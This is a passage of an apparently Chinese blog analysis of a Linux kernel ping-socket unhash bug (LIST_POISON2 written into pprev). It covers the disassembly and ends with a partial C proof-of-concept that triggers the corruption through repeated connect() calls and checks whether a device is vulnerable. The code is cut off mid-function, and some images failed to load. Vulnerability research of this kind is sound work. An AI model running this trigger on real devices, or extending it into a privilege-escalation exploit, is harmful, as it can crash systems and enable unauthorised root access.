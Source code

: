 ```

```

对应于汇编就是 x19 是 sock 的地址 +0x38 是 pprev, +0x30 是 next

![](https://img-blog.csdnimg.cn/d0f068fa2d3443f9b604fe0ff4db0beb.png#pic_center)  
![](https://img-blog.csdnimg.cn/457838ce587a42f5b8c9a330195a25c6.png#pic_center)

之后执行 n->pprev = LIST_POISON2; x0 是 0x1360 就是 LIST_POISON2 x19 是 sock +0x38 是 pprev

[外链图片转存失败, 源站可能有防盗链机制, 建议将图片保存下来直接上传 (img-iikjnGkP-1644392782065)(poc_6.png)]

[外链图片转存失败, 源站可能有防盗链机制, 建议将图片保存下来直接上传 (img-SDpe9JxV-1644392782066)(poc_7.png)]

pprev 变成 0x1360 了

当第二次执行 connect(sock, (const struct sockaddr *) &sa, sizeof(sa)); 时

遇到 sk_hashed 时由于 pprev 是 0x1360 不为 0. 顺利通过检测，而当后续执行 hlist_nulls_del 时 (就是上面那段汇编时）[外链图片转存失败, 源站可能有防盗链机制, 建议将图片保存下来直接上传 (img-VAfyZ8tz-1644392782066)(poc_8.png)]

将 0x3 赋值到 0x1360，因而导致程序崩溃

完整 poc:

```
#include <unistd.h>
#include <sys/socket.h>
#include <errno.h>
#include <linux/netlink.h>
#include <linux/if.h>
#include <linux/filter.h>
#include <linux/if_pppox.h>
#include <linux/sock_diag.h>
#include <linux/inet_diag.h>
#include <linux/unix_diag.h>
#include <string.h>
#include <sys/mman.h>
#include <stdio.h>
#include <stdlib.h>
#include <jni.h>
#define MMAP_BASE 0x200000
#define LIST_POISON 0x200200
#define MMAP_SIZE 0x200000
int checkIsVulnerable()
{
    void * magic = mmap((void *) MMAP_BASE, MMAP_SIZE,
       PROT_READ | PROT_WRITE, MAP_SHARED | MAP_FIXED | MAP_ANONYMOUS,
       -1, 0);//向0x20000到0x40000这个虚拟内存地址映射，并且将这个地址段中所有值设为0
    memset(magic, 0, MMAP_SIZE);
    *((long *)(LIST_POISON)) = 0xfefefefe;//给0x200200这个虚拟内存地址中赋值为0xfefefefe；
    int sock = socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP);
    struct sockaddr_in sa;
    memset(&sa, 0, sizeof(sa));
    sa.sin_family = AF_INET;
    connect(sock, (const struct sockaddr *) &sa, sizeof(sa));
//  第一次用AF_INET sin_family来connect是为了让sk（sock 对象）在内核中hashed
    sa.sin_family = AF_UNSPEC;
     connect(sock, (const struct sockaddr *) &sa, sizeof(sa));
     /*每次用AF_UNSPEC调用connect会触发inet_dgram_connect（）中的sk->sk_prot->disconnect（）逻辑
    其中disconnect的具体实现是根据协议类型而定的，PING（ICMP）socket的具体实现disconnect（）是
    udp_disconnect（）未绑定端口的情况下会触发sk->sk_prot->unhash(sk)逻辑*/
    connect(sock, (const struct sockaddr *) &sa, sizeof(sa));//如果漏洞存在，第二次调用就会触发这个漏洞
    if (*((long *)(LIST_POISON)) != 0xfefefefe){
       printf("Device is vulnerable\n");
       return 1;
    }else{
```